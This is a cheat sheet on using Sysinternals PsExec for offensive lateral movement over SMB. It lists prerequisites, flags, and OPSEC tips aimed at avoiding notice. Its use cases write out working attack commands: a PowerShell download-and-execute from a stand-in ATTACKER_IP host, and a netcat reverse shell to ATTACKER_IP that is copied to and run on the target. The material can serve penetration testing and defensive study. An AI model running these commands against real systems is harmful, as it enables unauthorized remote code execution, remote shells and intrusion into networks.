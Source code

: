 PsExec is a very versatile tool that is part of the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/) suite developed by Mark Russinovich. It's intended to replace telnet-like applications and provide remote execution of processes on other systems through an interactive console.
Here's a concise PsExec cheat sheet tailored for offensive security operations:

---

### **PsExec Cheat Sheet**  
*For remote command execution and lateral movement via SMB*
### **Prerequisites**  

1. **Administrative Privileges**:  
   - The user authenticating to the target machine must be a member of the **Local Administrators group** on the target system.  
1. **ADMIN$ Share Availability**:  
   - The **ADMIN$** share (a hidden administrative share) must be accessible on the target machine.  
   - By default, this share is enabled on modern Windows systems and provides access to the `C:\Windows` directory.  

3. **File and Printer Sharing Enabled**:  
   - The **File and Printer Sharing** feature must be turned on.  
   - This is typically enabled by default on modern Windows Server systems and allows remote access to shared resources.  

---

### **1. Basic Syntax**  
```powershell
./PsExec64.exe \\TARGET -u DOMAIN\user -p password [options] <command>
```

---

### **2. Common Flags**  
| **Flag** | **Description**                                  |
|----------|--------------------------------------------------|
| `-i`     | Interactive session (desktop interaction)        |
| `-s`     | Run as SYSTEM account                            |
| `-d`     | Don't wait for process to exit                   |
| `-c`     | Copy local file to remote system                 |
| `-h`     | Run with elevated token (admin privileges)       |
| `-accepteula` | Bypass EULA prompt                          |

---

### **3. Common Use Cases**  
**A. Spawn interactive CMD:**  
```powershell
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

**B. Run single command:**  
```powershell
./PsExec64.exe \\192.168.1.10 -u admin -p Passw0rd! hostname
```

**C. Execute PowerShell payload:**  
```powershell
./PsExec64.exe \\TARGET -u user -p pass powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/script.ps1')"
```

**D. File transfer + execution:**  
```powershell
./PsExec64.exe -c \\TARGET -u user -p pass C:\Tools\nc.exe "C:\Windows\Temp\nc.exe -e cmd ATTACKER_IP 443"
```


### **4. Key Requirements**  
- TCP 445 (SMB) access  
- Target must have Admin$ share enabled  
- User credentials with local admin privileges  
- PsExec allowed by AV/EDR (whitelisted in many environments)

---

### **5. OPSEC Considerations**  
❗ Leaves logs in `Security` event log (Event ID 4688)  
❗ Cleartext credentials in command-line arguments  
✅ Prefer `-s` to inherit SYSTEM context  

